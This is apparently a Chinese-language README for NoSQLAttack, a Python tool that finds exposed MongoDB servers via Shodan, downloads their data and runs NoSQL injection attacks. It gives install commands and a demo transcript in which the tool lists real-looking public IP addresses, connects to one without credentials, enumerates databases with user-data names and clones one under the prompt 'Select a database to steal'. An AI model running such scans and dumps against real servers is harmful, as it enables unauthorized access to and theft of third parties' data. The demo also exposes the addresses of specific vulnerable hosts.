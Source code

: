 #NoSQLAttack

#介绍
NoSQLAttack 是一个用python编写的开源的攻击工具，用来暴露网络中默认配置mongoDB的IP并且下载目标mongoDB的数据，同时还可以针对以mongoDB为后台存储的应用进行注入攻击，使用这个工具就可以发现有成千上万的mongoDB裸奔在互联网上，并且数据可以随意下载，
这个攻击工具是基于tcstool的[NoSQLMap](http://www.nosqlmap.net/index.html)和搜索引擎[shodan](https://www.shodan.io/)，一些攻击的数据是来自于这两篇论文给予的启发和论文里面的例子[Diglossia: Detecting Code Injection Attacks with Precision and Efficiency](http://www.cs.cornell.edu/~shmat/shmat_ccs13.pdf)和[No SQL, No Injection?](https://www.research.ibm.com/haifa/Workshops/security2015/present/Aviv_NoSQL-NoInjection.pdf)。
现在这个工具主要针对mongoDB。

NoSQL注入攻击测试系统[NoSQLInjectionAttackDemo](https://github.com/youngyangyang04/NoSQLInjectionAttackDemo)，这里面有两个系统用来测试注入攻击。
#运行环境
项目运行在linux系统上，NoSQLAttack的依赖包已经写在setup.py文件里，并且已经在ubantu和MAC OX上都测试了，只需要执行这个脚本就可以自动配置好安装环境
开发这个项目使用时使用的是Pycharm COMMUNITY 2016.1，python的版本为2.7.10，使用者需要在本地电脑安装[mongoDB](http://jingyan.baidu.com/article/fd8044faf4f3a95030137a79.html)。

#安装
在linux系统下可以直接将下载的项目解压，然后执行以下两个命令
```bash
cd NoSQLAttack
python setup.py install
```
#使用方法
安装完毕后，执行一下命令就可以启动该项目
```bash
NoSQLAttack
```
启动该项目后将会展现如下的界面，然后就可以开启黑客之旅了
```bash
================================================
        _   _       _____  _____ _                      
       | \ | |     /  ___||  _  | |                     
       |  \| | ___ \ `--. | | | | |                   
       | . ` |/ _ \ `--. \| | | | |                    
       | |\  | (_) /\__/ /\ \/' / |____          
       \_| \_/\___/\____/  \_/\_\_____/                  
                                        _          
    /\      _      _                   | |  _        
   /  \   _| |_  _| |    _____    ___  | | / /       
  / /\ \ |_   _||_   _| / __  \  / __| | |/ /        
 / /--\ \  | |_   | |_  | |_| | | |__  | |\ \       
/ / -- \ \ \___\  \___\ \______\ \___| | | \_\      
================================================    
NoSQLAttack-v0.2
sunxiuyang04@gmail.com


1-Scan attacked IP
2-Configurate parameters
3-MongoDB Access Attacks
4-Injection Attacks
x-Exit
```
#系统演示
```bash
===============================================
        _   _       _____  _____ _                      
       | \ | |     /  ___||  _  | |                     
       |  \| | ___ \ `--. | | | | |                   
       | . ` |/ _ \ `--. \| | | | |                    
       | |\  | (_) /\__/ /\ \/' / |____          
       \_| \_/\___/\____/  \_/\_\_____/                  
                                        _          
    /\      _      _                   | |  _        
   /  \   _| |_  _| |_   _____    ___  | | / /       
  / /\ \ |_   _||_   _| / __  \  / __| | |/ /        
 / /--\ \  | |    | |_  | |_| |  ||__  | |\ \       
/ / -- \ \ \___\  \___\ \______\ \___| | | \_\      
===============================================    
NoSQLAttack-v0.2
sunxiuyang04@gmail.com


1-Scan attacked IP
2-Configurate parameters
3-MongoDB Access Attacks
4-Injection Attacks
x-Exit
Select an option:1
Start Scanning.....
Results found:28793
1_Attacked IP : 149.202.88.135
2_Attacked IP : 49.212.186.80
3_Attacked IP : 85.9.62.231
4_Attacked IP : 121.78.239.11
5_Attacked IP : 54.226.207.112
6_Attacked IP : 119.254.66.44
7_Attacked IP : 121.46.0.83
8_Attacked IP : 162.243.21.180
9_Attacked IP : 210.23.29.75
Select IP to attack:2
Start Default Configuration Attack(y/n)?y
DB access attacks(mongoDB)
=========================
Checking to see if crendentials are need
49.212.186.80

27017
Successful access with no credentials!


1-Get Server Version and Platform
2-Enumerate Databases/Collections/Users
3-Clone a Database
4-Return to Main Menu
Select an attack: 2
List of databases:
MultiCopyService_UserData
SmartNFC_UserData
SmartShop_UserData
KioskPointMng2_UserData
admin
db
local

1-Get Server Version and Platform
2-Enumerate Databases/Collections/Users
3-Clone a Database
4-Return to Main Menu
Select an attack: 3


(1)MultiCopyService_UserData
(2)SmartNFC_UserData
(3)SmartShop_UserData
(4)KioskPointMng2_UserData
(5)admin
(6)db
(7)dbItem
(8)local
Select a database to steal:6
Does this Database require credentials.(y/n)?n
Database cloned. Copy another (y/n)?
```

